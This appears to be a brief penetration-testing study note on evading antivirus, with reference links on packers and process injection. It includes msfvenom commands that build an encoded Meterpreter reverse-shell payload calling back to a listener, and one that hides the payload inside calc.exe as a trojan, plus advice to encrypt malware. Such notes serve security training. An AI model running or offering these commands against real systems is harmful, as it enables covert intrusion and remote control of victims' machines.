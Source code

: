 # Bypassing Antivirus

## Additional Resources

* [https://sushant747.gitbooks.io/total-oscp-guide/content/bypassing\_antivirus.html](https://sushant747.gitbooks.io/total-oscp-guide/content/bypassing_antivirus.html)
* [https://upx.github.io/](https://upx.github.io/)
* [https://enigmaprotector.com/](https://enigmaprotector.com/)
* [https://en.wikipedia.org/wiki/Dead\_code](https://en.wikipedia.org/wiki/Dead_code)
* [https://en.wikipedia.org/wiki/Executable\_compression](https://en.wikipedia.org/wiki/Executable_compression)
* [https://www.elastic.co/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process](https://www.elastic.co/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process)
* [https://blog.f-secure.com/memory-injection-like-a-boss/](https://blog.f-secure.com/memory-injection-like-a-boss/)
* [https://en.wikipedia.org/wiki/Windows\_API](https://en.wikipedia.org/wiki/Windows_API)
* [https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)
* [https://en.wikipedia.org/wiki/Handle\_\(computing\)](https://en.wikipedia.org/wiki/Handle_%28computing%29)
* [https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)
* [https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)
* [https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)
* [https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya)
* [https://www.andreafortuna.org/2017/12/08/what-is-reflective-dll-injection-and-how-can-be-detected/](https://www.andreafortuna.org/2017/12/08/what-is-reflective-dll-injection-and-how-can-be-detected/)
* [https://www.ired.team/offensive-security/code-injection-process-injection/process-hollowing-and-pe-image-relocations](https://www.ired.team/offensive-security/code-injection-process-injection/process-hollowing-and-pe-image-relocations)

## How to Find which AV Detects Malware

* find out which AV the target uses.
* upload malware to [virtustotal.com](http://virtustotal.com/) and see if the specific AV finds it

## Encoding

* can be done with msfvenom and metasploit
* notice how we set the -e flag here, and then use the shikata\_ga\_nai encoding
* not that effective since antivirus-vendors have access too

### Example

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=5555 -f exe -e
x86/shikata_ga_nai -i 9 -o meterpreter_encoded.exe
```

## Embed in Non-Malicious File

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=5555 -f exe -e
x86/shikata_ga_nai -i 9 -x calc.exe -o bad_calc.exe
```

## Encrypting the malware

* encrypt the malware and radically change the signature
* Hyperion is a great tool for malware encryption

